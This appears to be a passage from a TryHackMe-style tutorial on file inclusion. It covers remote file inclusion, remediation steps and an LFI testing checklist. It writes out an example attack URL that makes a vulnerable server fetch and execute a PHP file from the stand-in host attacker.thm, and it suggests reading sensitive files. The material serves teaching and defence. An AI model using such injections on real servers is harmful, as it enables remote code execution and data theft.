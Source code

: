 
- An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server.
- Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b0c2659127d95a0b633e94bd00ed10e0.png)


**RFI Steps**:

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message  Hello THM.

<?PHP echo "Hello THM"; ?>

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

Visit the following lab URL: http://10.10.171.76/playground.php to try out an RFI attack.

---

## Remediation


To prevent the file inclusion vulnerabilities, some common suggestions include:

    1. Keep system and services, including web application frameworks, updated with the latest version.
    2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
    3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
    4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
    5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
    6. Never trust user input, and make sure to implement proper input validation against file inclusion.
    7. Implement whitelisting for file names and locations as well as blacklisting.

---

## Challenge


Steps for testing for LFI

    1. Find an entry point that could be via GET, POST, COOKIE, or HTTP header values!
    2. Enter a valid input to see how the web server behaves.
    3. Enter invalid inputs, including special characters and common file names.
    4. Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
    5. Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
    6. Understand the input validation and if there are any filters!
    7. Try the inject a valid entry to read sensitive files
